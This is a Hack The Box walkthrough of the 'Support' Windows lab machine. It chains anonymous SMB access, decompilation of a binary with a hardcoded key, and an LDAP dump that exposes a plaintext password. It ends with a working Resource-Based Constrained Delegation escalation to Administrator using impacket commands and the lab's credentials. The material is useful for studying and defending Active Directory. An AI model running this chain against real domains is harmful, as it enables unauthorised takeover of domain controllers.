# Support — Hack The Box

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Windows |
| **Status** | ✅ Rooted (~1h 20m) |
| **Key techniques** | Anonymous SMB, .NET decompilation (ILSpy), LDAP `info` attribute leak, GenericAll on Computer → RBCD |

---

## TL;DR

`Support` starts from an anonymously readable SMB share hosting a
`UserInfo.exe` .NET binary. Decompiling it with ILSpy reveals an LDAP
password encrypted with a hardcoded key (`armando`); reproducing the
routine in a short helper script recovers a real credential. Authenticated
LDAP dumping shows the user `support` carries a plaintext password in
the `info` attribute — that's the user flag. From there BloodHound reveals
that `support`'s group has `GenericAll` on the DC computer object, which
is the textbook setup for **Resource-Based Constrained Delegation**:
create a machine account, set it as an allowed delegate, request an
impersonation ticket for `Administrator`, and log in via `psexec -k`.

---

## Recon

```bash
sudo nmap -p- -sCV <TARGET_IP>
```


Domain controller for `support.htb` — SMB, LDAP, Kerberos, DNS, GC.

---

## SMB — anonymous share

`smbclient -L` under an anonymous session exposed the `support-tools` share
containing `UserInfo.exe`:





---

## Foothold — decompile + decrypt

`UserInfo.exe` is a small .NET assembly. ILSpy opened it cleanly and
surfaced the LDAP bind routine:




The class held a base64-encoded ciphertext and a hardcoded key (`armando`).
The routine XORs the ciphertext against the key after decoding — trivial
to reproduce in Python/C#:





---

## Lateral movement — LDAP → support

The recovered credential authenticates for LDAP queries. Dumping the full
directory surfaces every attribute — including the `info` field on the
`support` user, which contains their plaintext password:

```bash
ldapsearch -x -H ldap://<DC> -D 'ldap@support.htb' -w '<pwd>' -b 'dc=support,dc=htb'
```




Password for `support`:


Confirmed with `nxc`:

```bash
nxc smb <DC> -u support -p 'Ironside47pleasure40Watchful'
```



WinRM login:

```bash
evil-winrm -i <DC> -u support -p 'Ironside47pleasure40Watchful'
```


---

## Privilege escalation — RBCD

### BloodHound

```bash
bloodhound-python -u support -p 'Ironside47pleasure40Watchful' -d support.htb -c All -ns <DC>
```




`support` is a member of `Shared Support Accounts`, which has
`GenericAll` on the DC computer object:




`GenericAll` on a computer = **RBCD** playbook.

### 1. Add an attacker-controlled machine account

```bash
impacket-addcomputer -computer-name 'FAKE01$' -computer-pass 'Pass123!' \
  -dc-host dc.support.htb 'support.htb'/'support':'Ironside47pleasure40Watchful'
```




### 2. Set it as an allowed delegate on the DC

```bash
impacket-rbcd -delegate-from 'FAKE01$' -delegate-to 'DC$' -action write \
  'support.htb'/'support':'Ironside47pleasure40Watchful'
```




### 3. S4U → impersonation ticket for Administrator

```bash
impacket-getST -spn 'cifs/dc.support.htb' -impersonate Administrator \
  'support.htb'/'FAKE01$':'Pass123!'
export KRB5CCNAME=Administrator.ccache
```



### 4. psexec with the ticket

```bash
impacket-psexec -k -no-pass dc.support.htb
```




---

## Lessons Learned

- **A binary on an anonymous share is a code review, not a foothold** —
  before running it, throw it into ILSpy / dnSpy / IDA. Hardcoded keys
  and encrypted config values are common.
- **LDAP `info` and `description` are goldmines.** Any authenticated
  LDAP dump should grep both — real environments still store passwords
  there.
- **`GenericAll` on a Computer object = RBCD.** The four-command chain
  (`addcomputer` → `rbcd -action write` → `getST -impersonate` →
  `psexec -k -no-pass`) is the reflex; drilling it means the exam-shape
  of this box takes minutes, not hours.

---

## Time to root
**~1h 20m** (first ILSpy use — peeked at the decrypt helper writeup, the rest solo)
